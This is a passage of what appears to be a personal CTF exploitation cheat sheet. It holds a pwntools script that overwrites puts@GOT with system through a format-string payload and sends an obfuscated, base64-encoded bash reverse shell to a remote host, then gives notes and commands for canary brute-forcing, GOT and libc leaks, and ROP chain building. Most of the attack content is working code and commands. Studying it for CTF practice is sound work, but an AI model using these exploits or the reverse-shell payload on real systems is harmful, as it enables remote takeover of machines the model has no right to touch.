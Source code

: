 ```python
system = libc.symbols['system']
log.success(f"Puts@GOT: {hex(got_puts)}")
log.success(f"System@LIBC: {hex(system)}")

# Step 3. Overwrite PUTS with SYSTEM()
log.info("Using printf[53] to remap PUTS > SYSTEM")
payload = fmtstr_payload(53, {got_puts : system} )
r = remote(RHOST, RPORT)
# Bash rev shell
base64_rev_shell = "..."
cmd = "echo${IFS}" + base64_rev_shell + "{$IFS}|${IFS}base64${IFS}-d${IFS}|bash"
r.sendline(f"{cmd} {quote(payload)} HTTP/1.1\r\n")
r.close()
```

https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_example/

# return-oriented programming (rop)

- [GitHub \- Ben\-Lichtman/ropr: A blazing fast™ multithreaded ROP Gadget finder\. ropper / ropgadget alternative](https://github.com/Ben-Lichtman/ropr)
- [GitHub \- 0vercl0k/rp\-bf\.rs: rp\-bf: A library to bruteforce ROP gadgets by emulating a Windows user\-mode crash\-dump](https://github.com/0vercl0k/rp-bf.rs)

1. leak stack canary: Given multiple requests for same process, blast (i.e. bruteforce) bytes from boolean-based response
    - repeat for $rbp, then $rip
    - https://ctf-wiki.github.io/ctf-wiki/pwn/linux/mitigation/canary/#one-by-one-crack-canary
    - if: read and print beyond variable
        - overwrite null byte of canary

2. leak base address, map: $rip == rebasing ELF (allows leaking GOT addresses)
    - ~/code/snippets/ctf/pwn/rop.py
    - Alternative: manual chain
    ```bash
    ropper --search "pop r??"
    # foreach address (= offset): p64(address + base_address)

    objdump -D _
    # take PLT for write()

    readelf -r _
    # take GOT for write()

    strings -atx libc | grep -i '/bin/sh'
    # take p64(address + base_address)
    ```
    ```python
    # leak write@libc
    # fd = 0x0: reuse previous fd
    rop = pop_rsi_r15 + got_write + p64(0x0)
    rop += pop_rdx + p64(0x8)
    rop += plt_write
    ```
